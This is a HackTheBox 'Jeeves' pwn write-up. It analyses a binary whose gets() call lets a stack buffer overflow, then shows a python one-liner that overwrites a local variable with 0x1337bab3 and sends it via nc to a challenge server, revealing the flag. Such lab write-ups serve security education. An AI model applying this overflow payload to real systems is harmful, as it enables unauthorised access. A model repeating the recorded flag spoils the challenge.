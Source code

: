 ```yaml
---
Category: Pwn
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - code-review
  - reversing
---
```

>[!quote]
> *How are you doing, sir?*


# Set up

![Instance on HTB](../../zzz_res/attachments/Pasted_image_20210605173802.png)

Instance on HTB

# Information Gathering

File info:

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

Strings:

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ strings jeeves
/lib64/ld-linux-x86-64.so.2
libc.so.6
gets
printf
read
malloc
close
open
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Hello, good sir!
May I have your name?
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
:*3$"
GCC: (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008
crtstuff.c
...
```

## Decompiled code

Ghidra decompiled code:

```bash
undefined8 main(void)
{
  char name [44];
  int local_1c;
  void *local_18;
  int n;
  
  n = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(name);
  printf("Hello %s, hope you have a good day!\n",name);
  if (n == 0x1337bab3) {
    local_18 = malloc(0x100);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```

# The Bug

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ python -c 'print "A" * 80' | ./jeeves
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, hope you have a good day!
zsh: done                python -c 'print "A" * 80' |
zsh: segmentation fault  ./jeeves
```

# Exploitation

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ python -c 'import struct; print struct.pack("I",0x1337bab3)*16' | ./jeeves
Hello, good sir!
May I have your name? Hello 7777777777777777, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: this is the flag
```

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ nc 139.59.167.178 31192 < input.txt 
Hello, good sir!
May I have your name? Hello 7777777777777777, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}
```

# Flag

>[!success]
>`HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}`